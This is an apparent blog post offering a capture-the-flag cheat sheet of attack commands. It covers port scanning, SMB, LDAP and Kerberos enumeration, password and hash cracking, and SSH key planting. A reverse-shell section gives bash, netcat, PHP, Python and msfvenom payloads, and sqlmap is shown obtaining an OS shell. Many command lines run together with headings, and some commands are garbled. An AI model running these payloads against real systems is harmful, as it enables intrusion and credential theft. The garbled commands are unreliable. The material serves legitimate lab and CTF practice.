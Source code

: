 # CTF Methods and Tool

## Helpful list of commands for CTF

[![0x7a616368](https://miro.medium.com/fit/c/96/96/0*QxVH9czKvyjvOy_3)](/@7a616368?source=post_page-----92febcac2ff4----------------------)

[0x7a616368](/@7a616368?source=post_page-----92febcac2ff4----------------------)

Follow

[Jul 15,
2019](/@7a616368/ctf-methods-and-tool-92febcac2ff4?source=post_page-----92febcac2ff4----------------------)
· 3 min read

## Setup

    Set the target IP to a variable to make it easier
    export IP=10.10.10.123
    And use it by calling $IP
    Create a working directory to store results of your scans etc
    mkdir ~/CTF/$IP
    Update Git Repos (recursive)
    find . -maxdepth 3 -name .git -type d | rev | cut -c 6- | rev | xargs -I {} git -C {} pull

## Nmap

    Quick Scan with Scripts Check (Default Ports - Top 1k)
    nmap -sV -sC -oA ~/CTF/$IP/std $IPRun Again with all ports
    nmap -p- -sV -sC -oA ~/CTF/$IP/std_port $IPAggressive Scan (All Enabled - if needed)
    nmap -p0- -v -A -T4 -oA ~/CTF/$IP/aggro $IP

**Useful Nmap Scripts**

    View scripts
    ls /usr/share/nmap/scripts/HTTP
    nmap --script http-enum -v $IP -p80 -oA ~/CTF/$IP/http_enum
    HTTP/DNS
    nmap --script dns-brute -v $IP -p80,443 -oA ~/CTF/$IP/dns_brute
    SMB
    nmap --script smb-enum-users.nse -p445 $IP -oA ~/CTF/$IP/smb-enum-users
    nmap --script smb-brute.nse -p445 $IP -oA ~/CTF/$IP/smb_brute
    Vulnerability (Downloads required — vulners, vulscan)
    nmap --script vulners,vulscan/vulscan.nse --script-args vulscandb=scipvuldb.csv -sV -p<Ports> $IP -oA ~/CTF/$IP/vuln

## Webservers

    Directory Brute Force
    gobuster dir -u http://$IP/ -w /usr/share/wordlists/dirb/common.txt -o ~/CTF/$IP/gobuster.txt -x .php,.html,.txt (-k flag for Ignore Invalid SSL)
    dirb http://$IP /usr/share/dirb/wordlists/common.txt -w -X .php,.html,.txtFuzzing
    wfuzz -c -z file,/usr/share/wfuzz/wordlist/general/common.txt --hc 400,404,403 http://$IP/help.php?query=FUZZVulnerability
    nikto -h http://$IP -output ~/CTF/$IP/nikto.txt

## DNS

    Enum
    dnsenum <domain>
    dnsrecon -d <domain>
    Zone Transfer
    dig axfr <domain> @$IP

## Windows

*Enmeration Script:*
[*enum4linux*](https://github.com/portcullislabs/enum4linux)*  
*[http://pentestmonkey.net/tools/windows-privesc-check](http://pentestmonkey.net/windows-privesc-check)

**General**

    https://lolbas-project.github.io/Mount VHD from Remote SMB Share
    guestmount --add /mnt/backups/WindowsImageBackup/<file>.vhd --inspector --ro /mnt/vhd

**SMB**

    See what shares are on the host
    smbclient -L $IP
    smbmap -H $IP
    nmap --script smb-enum-shares -p139 $IPConnect
    smbclient //$IP/<sharename>
    smbclient //$IP/<sharename> -U <username> <password>Mount
    mount.cifs //$IP/<sharename>/  /mnt/shares/<sharename> -o username=<user>,pass=<password>Upload
    curl --upload-file <file> -u '<user>' smb://$IP/<sharename>/Brute
    hydra -L usernames.txt -P /usr/share/wordlists/rockyou.txt $IP smb

**LDAP**

    nmap -p 389 --script ldap-search $IP
    ldapsearch -h $IP -p 389
    ldapsearch -LLL -x -H ldap://<FQDN> -b '' -s base '(objectclass=*)'
    ldapsearch -h $IP -p 389 -x -b "dc=example,dc=com"

**WinRM**

    evil-winrm -i $IP -u <username> -p 'password' -s '/directory/to/scripts/' -e '/directory/to/exe_files/'

**Kerberos**

    ASREPRoast (Check for no pre-auth required accounts)
    ./GetNPUsers.py -dc-ip $IP <domain>/ -usersfile usernames.txt -format hashcat -outputfile hashes.asreproast
    hashcat -m 18200 --force -a 0 hashes.asreproast /usr/share/wordlists/rockyou.txt

# Linux

*Enmeration Script: LinEnum.sh,*
[*linux-smart-enumeration*](https://github.com/diego-treitos/linux-smart-enumeration)*,*
[*linPE*](https://github.com/carlospolop/linPE)

    wget “https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh" -O lse.sh; chmod X+ lse.sh
    ./lse.sh -l2

**General**

    crontab -l
    aux -pshttps://gtfobins.github.io/

**SSH**

    Copy
    scp <source_file> <user>@$IP:<destination_path>Mount
    sshfs <user>@$IP:<destination_path> <source_file>Copy local SSH Key (~/.ssh/id_rsa.pub) into remote Host
    mkdir -p ~/.ssh && chmod 700 ~/.ssh && touch ~/.ssh/authorized_keys && chmod 600 ~/.ssh/authorized_keys && echo "ssh-rsa <INSERT KEY> root@HOSTNAME" >> ~/.ssh/authorized_keysssh -i ~/.ssh/id_rsa <user>@<IP>SSH Tunnel Dynamic Port Forwarding
    vim /etc/proxychains.conf (edit conf to set listening port)ssh -D <listening port> <host> -l <username>(leave window with above command running)
    proxychains <command> (nmap/firefox etc)

## Reverse Shells

    Listen
    nc -nlvp <port>Upgrading to full shell
    python -c 'import pty; pty.spawn("/bin/bash")'Netcat
    nc <ip> <port> -c bashBash
    /bin/bash -i >& /dev/tcp/<ip>/<port> 0>&1PHP
    <?php exec(“/bin/bash -c ‘bash -i >& /dev/tcp/<ip>/<port> 0>&1’”); phpinfo(); ?>Python
    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ip>",<port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'Metasploit Reverse TCP Windows
    msfvenom -p  windows/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f exe -o ~CTF/rs.exe

## Files

    Append to end of file
    echo "append this" >> <filename>Remove last line from file
    sed -i '$d' <filename>Print Columns 3 and 1 from foo
    awk '{ print $3, $1 }' fooRegex for Base64 encoded text
    egrep "^([A-Za-z0–9+/]{4})*([A-Za-z0–9+/]{2}==|[A-Za-z0–9+/]{3}=|[A-Za-z0–9+/]{4})$"Redirect into executable stdin
    cat $(python -c "print 'A'*76+'\x08\x87\x04\x08'") | ./pwnmeSearch for file name
    /bin/cat $(find / -name flag.txt)Search for string in file
    grep -rwl “password” /path/to/search/dirDecode Base64
    base64 -dBinwalk extract
    binwalk -e <filename>Images
    exiftool <filename>
    zsteg <filename>
    steghide <filename>
    pngcheck -v <filename>
    stegsolve (GUI)Zip
    zipdetails <filename>
    fcrackzip -u -D -p '/usr/share/wordlists/rockyou.txt' <filename>
    zip2john <filename> <outfile>
    john <outfile>Image
    fls
    icat

## SQL

    sqlmap -u <url>/index.php?id=x --os-shell
    sqlmap -u <url>/index.php?id=x --dumpmysqldump -u <username> -p <password> --all-databases --skip-lock-tables

## PCAPs

    bro/zeek
    bro -Cr file.pcap
    cat dhcp.log | bro-cut client_addr host_name | sort | uniq
    cat files.log | bro-cut mime_type filename | grep “msword”
